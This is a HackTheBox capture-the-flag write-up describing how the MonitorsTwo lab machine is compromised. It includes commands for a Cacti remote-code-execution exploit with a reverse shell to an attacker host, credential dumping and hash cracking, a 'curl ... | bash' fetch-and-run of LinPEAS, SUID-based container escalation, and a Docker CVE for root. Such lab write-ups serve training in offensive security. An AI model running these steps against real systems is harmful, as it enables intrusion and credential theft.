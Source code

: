 ```yaml
---
title: HackTheBox MonitorsTwo Write-up
author: cr0mll
date: 2023-09-04
categories: [HackTheBox, Machines]
tags: [hackthebox, monitorstwo, machines, easy]
---
```


# Introduction

[MonitorsTwo](https://app.hackthebox.com/machines/MonitorsTwo) was an easy-rated machine which involved exploiting two CVEs - one in [Cacti](http://www.cacti.net/) in order to get user and then one in docker engine in order to get root.

![MonitorsTwo](/assets/img/htb/machines/MonitorsTwo/MonitorsTwo.png)

## Initial Reconnaissance

I initially scan the machine to reveal all open TCP ports:

```bash
nmap -p- 10.10.11.211
```

![Initial Scan](/assets/img/htb/machines/MonitorsTwo/Initial%20Scan.png)

Afterwards, I enumerate the open ports for version and service information:

```bash
nmap -p22,80 -sC -sV 10.10.11.211
```

![Full TCP Scan](/assets/img/htb/machines/MonitorsTwo/Full%20TCP%20Scan.png)

## Foothold

### Website on port 80

Visiting [http://10.10.11.211](http://10.10.11.211) in the browser gives the following webpage:

![Website on port 80](/assets/img/htb/machines/MonitorsTwo/Website%20on%20port%2080.png)

Googling `Cacti version 1.2.22` immediately presents us with an [RCE Exploit](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22). Clone the repository with the proof-of-concept exploit:

```bash
git clone https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22
```

Change directory into the cloned repository, set up a netcat listener and run the exploit:

```bash
python CVE-2022-46169.py -u http://10.10.11.211 --LHOST=<your ip> --LPORT=<listening port>
```

![CVE-2022-46169](/assets/img/htb/machines/MonitorsTwo/CVE-2022-46169%20Success.png)

![www-data shell](/assets/img/htb/machines/MonitorsTwo/www-data%20shell.png)

We obtain a shell as `www-data`. Weirdly, it appears that python is not installed, so we will use `script` to upgrade our shell:

```bash
SHELL=/bin/bash script -q /dev/null
Ctrl+Z
stty raw -echo
fg
Enter
Enter
```

![www-data Shell Upgrade](/assets/img/htb/machines/MonitorsTwo/www-data%20Shell%20Upgrade.png)

Now we have tab autocompletion and can use the arrow-keys for navigation.

## User Flag

Our `www-data` shell lands us in `/var/www/html` where we find the Cacti application. Cacti stores its configuration in `include/config.php` where we find database credentials.

![Cacti database credentials](/assets/img/htb/machines/MonitorsTwo/Cacti%20database%20credentials.png)

We can connect to the database with

```bash
mysql -h db -u root -proot cacti
```

Running `show tables;` reveals a long-winded list of tables, but the table which sounds most enticing to me is `user_auth`. Let's see what is inside it:

```sql
select * from user_auth;
```

![user_auth table](/assets/img/htb/machines/MonitorsTwo/user_auth%20table.png)

Jackpot! We find three potential users and their password hashes. My intuition tells me to start with `marcus`, so copy his hash and crack it via hashcat. This seems like a bcrypt hash, so we will use mode `3200`.

```bash
hashcat -a 0 -m 3200 hashes/MonitorsTwo.hash rockyou.txt -O
```

![Marcus Hash Cracked](/assets/img/htb/machines/MonitorsTwo/Marcus%20hash%20cracked.png)

We get the credentials `marcus:funkymonkey`. Let's see if we can SSH into the box with them. 

```bash
ssh marcus@10.10.11.211
```

![Marcus SSH](/assets/img/htb/machines/MonitorsTwo/Marcus%20SSH.png)

Indeed we can!

## Root Flag

The first thing to do is to check whether we can run anything as `sudo`:

```bash
sudo -l
```

![sudo -l](/assets/img/htb/machines/MonitorsTwo/sudo%20-l.png)

Apparently not. Alright then, the next step is to run [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS). Download the script from the [releases](https://github.com/carlospolop/PEASS-ng/releases/tag/20230724-deeec83e) on your box and transfer it to the MonitorsTwo machine via `scp`:

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/download/20230724-deeec83e/linpeas.sh
scp linpeas.sh marcus@10.10.11.211:/tmp/
```

LinPEAS reveals that we have unread mail...

![LinPEAS mail](/assets/img/htb/machines/MonitorsTwo/Linpeas%20mail.png)

Let's see what we have.

```bash
cat /var/mail/marcus
```

![Marcus mail](/assets/img/htb/machines/MonitorsTwo/Marcus mail.png)

The email informs us of some "recently discovered" vulnerabilities and tells us how to mitigate them. The third one, `CVE-2021-41091`, seems to be the only interesting one because it mentions permissions. Let's check if docker is installed and if its version might be vulnerable.

![docker version](/assets/img/htb/machines/MonitorsTwo/docker%20version.png)

Indeed, we do have docker installed and it seems to be vulnerable. Googling the CVE, we find this [proof-of-concept](https://github.com/UncleJ4ck/CVE-2021-41091), although it seems that it requires a docker container. Let's check if we have any containers running:

```bash
ps aux | grep docker
```

![List Containers](/assets/img/htb/machines/MonitorsTwo/list%20containers.png)

It appears that the  Cacti application on port 80 might actually be running in a docker container. This actually makes a lot of sense, since if you recall, `python` was not installed when we tried to upgrade our shell. So, exploit the foothold POC to gain a shell as `www-data` again. We need to sneak in LinPEAS into the container, but SSH won't do the trick, since it is not installed. Nevertheless, `curl` does seem to be a part of the container, so we can setup a python server on our machine and have the container download LinPEAS from there.

```bash
python -m http.server 80
```

```bash
curl http://<your ip>/linpeas.sh | bash
```

Linpeas confirms that this is a container.

![Container confirmed](/assets/img/htb/machines/MonitorsTwo/Container%20confirmed.png)

Alright, let's see how to exploit [CVE-2021-41091](https://github.com/UncleJ4ck/CVE-2021-41091).

![CVE-2021-41091 guide](/assets/img/htb/machines/MonitorsTwo/CVE-2021-41091%20guide.png)

The exploit requires root access within the container, so let's check LinPEAS again for any possible escalation paths. Looking at the [SUID](https://cr0mll.github.io/cyberclopaedia/System%20Internals/Linux/File System.html#set-owner-user-id-suid) binaries, we see `capsh`. It is even highlighted by LinPEAS as an almost certain privilege escalation vector.

![capsh suid](/assets/img/htb/machines/MonitorsTwo/capsh%20suid.png)

Looking up the binary on [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/#suid) reveals that we can use the following command to obtain root access to the container.

```bash
capsh --gid=0 --uid=0 --
```

Now, the CVE requires us to set the SUID bit on `/bin/bash` inside the container, so let's do that.

```bash
chmod u+s /bin/bash
```

![Bash suid](/assets/img/htb/machines/MonitorsTwo/bash%20suid.png)

Clone the PoC script to your host and transfer it on the main machine via scp. Switch to your SSH session and execute the script.

![Root shell](/assets/img/htb/machines/MonitorsTwo/Root%20Shell.png)

If no shell was spawned, as was the case here, then you need to change into the directory generated by the exploit and execute `/bin/bash -p`.